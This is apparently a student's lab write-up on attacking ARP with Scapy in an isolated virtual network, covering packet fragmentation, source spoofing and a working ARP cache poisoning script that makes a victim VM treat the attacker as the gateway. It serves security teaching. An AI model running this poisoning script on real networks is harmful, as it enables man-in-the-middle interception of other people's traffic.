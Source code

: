 ##Lab 6 - Scapy Attacks on ARP (leading to MITM)

As in the previous lab, I have two Ubuntu VM's on an internal network with m0n0wall assigning IPs via DHCP.

Artist's rendering:

                  Attacker                  Target
             _______________          |*\_/*|________
            |  ___________  |        ||_/-\_|______  |
            | |           | |        | |           | |
            | |   0   0   | |        | |   0   0   | |
            | |     -     | |        | |     -     | |
            | |   \___/   | |        | |   \___/   | |
            | |___     ___| |        | |___________| |
            |_____|\_/|_____|        |_______________|
            _|__|/ \|_|_.............._|________|_
             / ********** \      |    / ********** \
            /  ************  \   |   /  ************  \
            -------------------- |  --------------------
                                 |
                                 |
                                 |
                   __/ ///////// /|
                  /              ¯/|
                 /_______________/ |
                |  __________  |  |
                | |          | |  |
                | | m0n0wall | |  |
                | |          | |  |
                | |__________| | /   
                |______________|/ ___/\
                |____>______<_____/     \
              / = ==== ==== ==== /|    _|_
            / ========= === ===/ /   ////
           / ========= === ===/ /   /  / 
          <__________________<_/    ¯¯¯


Warmup Exercise (A): <code>fragment(IP(dst=target)/ICMP()/("DEADBEEF"*25000))</code>

This command will send the payload of "DEADBEEF" 25000 times to the target machine.  By adding in a fragsize, it will fragment into byte segments of 500.

I found an elegant way to do this here [1]:

Note: <code> from scapy.all import *</code> is necessary as <code>from scapy import *</code> doesn't import the modules for my machine

      from scapy.all import *
      import netifaces as nt
      import sys
      
      target="192.168.1.104"
      packet = fragment(IP(dst=target)/ICMP()/("DEADBEEF" * 25000))
      frags=fragment(packet,fragsize=500)
      counter=1
      for fragment in frags:
            print "Packet number"+str(counter)
            print "======================================================="
            fragment.show() #displays each fragment
            counter+=1
            send(fragment)

![Scapy - Nice display!](/images/Lab6-DEADBEEF.png)

The attacking machine sent 406 packets with the payload "DEADBEEF" and it set the MF (More Fragment) bit flag.

Warmup Exercise (B):  <code>IP(src=target,dst=target)/TCP(sport=135,dport=135)</code>
From the attacker side, spoofing the source of the packet:

![Spoofed source](/images/Lab6-spoofed_src_and_des.png)

On the target side I did <code>sudo tcpdump -vv icmp</code> for Warmup Exercise 1 (with the payload) and received the following when attacked from first Ubuntu machine:

![DEADBEEF payload on target!](/images/Lab6-DEADBEEF_on_target.png)

**_Q1: What are the IP/MAC addresses of each VM and the host? Comment on the three pairs of addresses, their relationship to each other; how might these values have been assigned? What do the VMs and host believe is the default gateway?_**

The attacking machine has an IP of 192.168.1.105.  The target has 192.168.1.104.  m0n0wall has an IP of 192.168.1.1 and it's the known gateway for both Ubuntu machines.  m0n0wall assigns the IPs via DHCP that I set up using its GUI.

**_Q2. Examine the arp table (arp –a –n) on VM#1 and report any entries you find._**

I did some research on arp with <code>man arp</code>.
Unfortunately <code>arp –a –n</code> complains that "-a" is an unknown host but <code>arp</code> provides the table fine.
The only entry is that of the m0n0wall gateway.

**_Q3. Ping VM#2 from VM#1 and report any changes to the state of the ARP table after the ping._**

Before pinging the target machine, there was only the gateway registered in the cache, but after a successful ping the target with its MAC address was registered in the Arp cache.

**_Q4. Manually delete the entry for the VM#2 machine in VM#1s ARP table (arp –d <ip>). Then, run tcpdump or wireshark on VM#2 to view the network traffic. Ping VM#2 again from VM#1. Report on the traffic that you see and use it to explain the way in which VM#1 obtains VM#2's MAC address._**

<code>arp -d 192.168.1.104</code> successfully removed the entry.

<code>tcpdump -vv icmp</code> on the target machine revealed:

![tcpdump of ping](/images/Lab6-tcpdump_ping.png)

**_Q5. From VM#1, using everything observed so far, determine the MAC address of the gateway._**

I believe when I used dhclient to get an IP on boot it registered the MAC address of the gateway in the ARP cache:
m0n0wall.local has a MAC address of 08:00:27:f2:0f:ab

**_Q6. Complete the program by adding lines to the arp_callback method so as to fully specify the ARP reply; you can list the fields in an ARP packet by doing ls(ARP) in Scapy. Explain the rationale for each of your lines of code._**

So far, I have:

    arpout = ARP(op=1, hwdst="impersonating_mac",hwsrc=target_mac, pdst=192.168.1.104)
but I need to fully specify the rest of the values.  Also:

Note to self:

Look into using scapy's <code>arpcachepoison()</code>

Edit: No success with arpcachepoison with either specifying MACs or IPs.

Upon troubleshooting some errors in coding and other little things I realized that the biggest problem was that my two Ubuntu machines had the same MAC address--that will certainly confound the exercise.

After changing the MAC on my attacker machine, it didn't immediately come up until I pulled it up with:
    ifconfig -a
    ifconfig eth3 up

I am getting an ARP request.  There is a name resolution problem.  Perhaps I need a fourth VM that the target VM doesn't know about so that the attack machine can fulfill the request?
![Problem with Name Resolution](/images/Lab6-problem-name_resolution.png)

To clear the target VM's arp cache we can run:

    ip -s -s neigh flush all

The following header with explicit encoding was necessary:

    #!/usr/bin/env python # coding: utf-8
    
    
With the following code I believe I successfully placed the attacking VM into the poisoned ARP cache of the victim machine.
~~~~
#!/usr/bin/env python # coding: utf-8

###The SCAPY script (arpy.py) sees an ARP request from 
###the target machine (for any IP) and then responds to the ARP request
###with a crafted reply that provides the attacker’s MAC address.
###In doing so, the victim is fooled into believing that the requested IP resolves 
###in the local segment to the attacker’s MAC address.


from scapy.all import *
#### Adapt the following settings ####
conf.iface = 'eth3'
###
attack_IP = "192.168.1.105"
attack_mac = "08:00:27:f6:b4:f6"
target_mac = "08:00:27:4a:3e:fa"
target_ip = sys.argv[1]
impersonating_mac = sys.argv[2]
gw_IP = "192.168.1.1"
gw_mac = "08:00:27:f2:0f:ab"

#call the function whenever a new arp packet is sniffed
def arp_callback(pkt):
	#make sure it's arp, a request, and the target is the one asking
	if ARP in pkt and pkt[ARP].op==1 and pkt[ARP].psrc==target_ip:
		#get the packet
		arpin = pkt[ARP]
		#show it
		print("Received an ARP request")
		arpin.display()
		arpout = ARP()
		#make the reply arp packet
		arpout = Ether()/ARP(op="who-has", psrc=gw_IP, pdst=sys.argv[1], hwdst=target_mac)
		print("Sending an ARP reply")
		arpout.display()

		send(arpout, inter=2, loop=1)
		return arpout.sprintf("ARP reply sent!")
		
#main program

if len(sys.argv) !=3:
	print "Usage: ./arpy.py <target_IP> <impersonating_mac>"
	sys.exit(1)

#wait for up to 10 arps and call the arp_callback for each
while True:
	sniff(prn=arp_callback, filter="arp", count= 10)
~~~~	

The ARP response from the attacking machine:

![ARP Response on attacking machine](/images/Lab6-ARP_response.png)

The victim machine now thinks that the attacker is the gateway.  So when the victim tries to ping a non-existent 192.168.1.103, the response is from the attacking machine:
![Victim machine now thinks the attacker is the gateway](/images/Lab6-Thinks_attacker_is_gw.png)

The target's ARP cache has been successfully poisoned:
![ARP cache successfully poisoned](/images/Lab6-ARP_cache_poisoned.png)

**_Q7: Suppose that as a network administrator you wanted to write a SCAPY script that would detect an ARP spoofing attack such as the one conducted by arp.py. Give a high-level description of how your SCAPY script would work._**


